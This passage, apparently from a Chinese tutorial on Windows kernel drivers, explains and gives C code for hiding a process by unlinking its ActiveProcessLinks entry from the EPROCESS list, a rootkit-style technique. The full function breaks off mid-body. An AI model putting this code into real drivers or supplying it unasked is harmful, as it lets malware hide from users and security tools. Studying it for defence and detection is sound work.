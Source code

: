然后`EPROCESS->UniqueProcessId`表示的是这个进程的pid。

所有我们可以便利所有进程，然后对比pid是否是我们的目标pid，如果是，则从链表中断开这个`ActiveProcessLinks`节点，这样就可以做到隐藏进程的效果。

**驱动部分**

获取本进程EPROCESS，从本进程开始遍历。我这里是用`PsGetCurrentProcess`，这篇[文章](https://bbs.kanxue.com/thread-278717.htm还提出一种从`fs:[0x124]`获取KPCR再，一层一层取得到EPROCESS的思路:`_KPCR -> _KPRCB -> KTHREAD -> _KAPC_STATE -> _KPROCESS -> _EPROCESS`.大佬分析说这其实就是PsGetCurrentProcess的代码实现原理。

```c
pEprocess = PsGetCurrentProcess();
pActiveProcessLinks =
        ((PCHAR)pEprocess + WIN10_21H1_EPROCESS_TO_ACTIVEPROCESSLINKS_OFFSET);
```

然后遍历链表，判断每个节点的pid是否是目标pid。如果是目标pid则断开链表节点。

```c
for (PLIST_ENTRY64 pBeginNode = pActiveProcessLinks, pCurNode = pBeginNode;
     pCurNode->Flink != pBeginNode;
     pCurNode = pCurNode->Flink) {
    pCurProcess =
        (PEPROCESS)((PCHAR)pCurNode -
                    WIN10_21H1_EPROCESS_TO_ACTIVEPROCESSLINKS_OFFSET);
    uProcessId = PsGetProcessId(pCurProcess);
    kprintf("[+] pid => {%#llx}\r\n.", uProcessId);
    if (uProcessId == pid) {
        kprintf(
            "[+ Hide Process R0] Found the Object Process id: %#llx.\r\n",
            uProcessId);
        ((PLIST_ENTRY64)pCurNode->Blink)->Flink = pCurNode->Flink;
        ((PLIST_ENTRY64)pCurNode->Flink)->Blink = pCurNode->Blink;

        goto success;
    }
}
```

**函数总体代码**

```c
/// @brief 隐藏指定进程
/// @param pid 需要隐藏的进程Pid
/// @return 如果隐藏成功则返回STATUS_SUCCESS，失败则返回STATUS_UNSUCCESSFUL
NTSTATUS HideProcessByPid(UINT64 pid)
{
    UINT64        uProcessId;
    PEPROCESS     pEprocess, pCurProcess;
    PLIST_ENTRY64 pActiveProcessLinks;
    PLIST_ENTRY64 pCurNode;

    pEprocess = PsGetCurrentProcess();
    pActiveProcessLinks =
        ((PCHAR)pEprocess + WIN10_21H1_EPROCESS_TO_ACTIVEPROCESSLINKS_OFFSET);

    for (PLIST_ENTRY64 pBeginNode = pActiveProcessLinks, pCurNode = pBeginNode;
         pCurNode->Flink != pBeginNode;
         pCurNode = pCurNode->Flink) {
        pCurProcess =
            (PEPROCESS)((PCHAR)pCurNode -
                        WIN10_21H1_EPROCESS_TO_ACTIVEPROCESSLINKS_OFFSET);
        uProcessId = PsGetProcessId(pCurProcess);
        kprintf("[+] pid => {%#llx}\r\n.", uProcessId);
        if (uProcessId == pid) {
            kprintf(
                "[+ Hide Process R0] Found the Object Process id: %#llx.\r\n",
                uProcessId);
```
